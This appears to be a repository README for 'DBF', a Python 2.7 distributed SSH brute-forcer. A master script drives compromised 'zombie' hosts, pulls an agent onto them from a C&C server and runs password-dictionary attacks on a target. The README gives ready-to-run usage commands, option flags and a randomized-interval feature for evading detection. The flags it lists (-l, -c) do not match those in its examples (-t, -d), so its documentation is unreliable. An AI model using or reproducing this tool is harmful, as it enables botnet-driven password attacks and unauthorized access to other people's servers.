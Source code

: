 # DBF         
Simple Distributed BruteForcer for SSH        
                  
## Requirement         
**OS system** : Debian/RHEL         
**Runtime Environment** : python27 with(paramiko)        
## Introduction        
\>  *owner.py*  : the master control program, which is used to connect zombie_host (read from zombie_file) and create distribute tasks(use password dictionary). owner.py is a simple distributed bruteforcer framework.                       
\>  *zombie.py* : the child script program. After connection between zombie_host and C&C_Server is established, zombie.py will be automatically downloaded. zombie.py is a bruteforcer agent, but only support SSH cracking this version.               
## Usage                      
\#slow mode                  
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 10                    
\#fast mode             
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 0.2                 
```text                
-H <target host>  : Host IP of target.                 
-p <target_port>  : Port to connect to on the target.                      
-u <target_user>  ：Provide username when connect to the target.                   
-F <passwd_file>  : Dictionary of passwords.                        
-Z <zombie_file>  : Provide zombie's resource. Format: 192.168.0.1:root:toor.              
-T <type>         : Only support SSH service.              
-l <threads>      ：Run threads number of connects in parallel, default 5.               
-c <interval>     : Defines the minimum wait time in seconds, default 5s. DBF use random time interval technology.The actual time interval is 5.0~10.0 seconds.                
        
```
